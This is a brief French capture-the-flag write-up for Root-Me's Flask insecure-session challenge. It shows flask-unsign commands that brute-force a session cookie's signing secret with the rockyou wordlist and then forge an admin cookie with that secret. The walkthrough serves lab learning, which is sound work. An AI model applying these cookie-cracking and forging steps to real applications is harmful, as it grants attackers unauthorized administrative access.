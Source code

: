 Le challenge : https://www.root-me.org/fr/Challenges/Web-Serveur/Flask-Unsecure-session

Exploit sur flask 

D'abord quésako ? 

flask est un framework qui permet de faire des sites en python 

Le cookie par défaut est session 
grace à ça on peut décoder
https://www.kirsle.net/wizards/flask-session.cgi

Maintenant on va utiliser unsign 
pip3 install flask-unsign


On va brute force notre cookie 
 flask-unsign --wordlist rockyou.txt --unsign --cookie 'eyJhZG1pbiI6ImZhbHNlIiwidXNlcm5hbWUiOiJndWVzdCJ9.aFxxNQ.I-ZNlMtcgkFW8taLeTn2WSxCMSg' --no-literal-eval

 On va trouver un mdp 

 On pourra générer notre propre cookie 
 flask-unsign --sign --cookie "{'admin':'true','username':'admin'}" --secret "b's3cr3t'"

 On remplace le cookie et pouf le flag 